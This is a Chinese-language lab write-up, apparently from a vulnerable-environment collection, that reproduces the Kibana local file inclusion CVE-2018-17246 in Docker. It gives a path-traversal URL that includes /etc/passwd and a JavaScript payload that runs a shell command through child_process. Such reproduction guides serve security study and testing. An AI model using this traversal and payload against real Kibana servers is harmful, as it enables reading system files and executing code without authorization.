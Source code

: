 # Kibana Local File Inclusion (CVE-2018-17246)

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/
- https://www.anquanke.com/post/id/168291

## 环境搭建

启动 Kibana 5.6.12 和 Elasticsearch 5.6.16 环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:5106`即可看到Kibana的默认首页。

## 漏洞复现

直接访问如下URL，来包含文件`/etc/passwd`：

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：

![](1.png)

所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们将如下代码上传到服务器的`/tmp/vulhub.js`：

```js
// docker-compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

成功包含并返回命令执行结果：

![](2.png)

